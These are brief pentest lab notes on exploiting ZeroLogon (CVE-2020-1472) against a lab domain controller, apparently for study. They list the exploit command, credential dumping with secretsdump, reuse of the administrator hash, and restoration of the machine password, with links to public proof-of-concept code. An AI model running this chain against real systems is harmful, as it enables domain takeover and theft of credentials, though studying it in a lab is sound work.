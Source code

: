 # ZeroLogon

```
python3 cve-2020-1472-exploit.py HYDRA-DC 192.168.181.130 # run exploit

# check if it worked
secretsdump.py -just-dc MARVEL/HYDRA-DC\$@192.168.181.130
# copy administrator hash and use it with secrets dump
secretsdump.py administrator@192.168.181.130 -hashes <Hash>
# copy plain password hex value

# restore password
python3 restorepassword.py MARVEL/HYDRA-dc@HYDRA-DC -target-ip 192.168.181.130 -hexpass <hex pass>
```

---
Tags: #AD #zerologon #cve-2020-1472
Resources:
https://www.trendmicro.com/en_us/what-is/zerologon.html
https://github.com/dirkjanm/CVE-2020-1472
https://github.com/SecuraBV/CVE-2020-1472

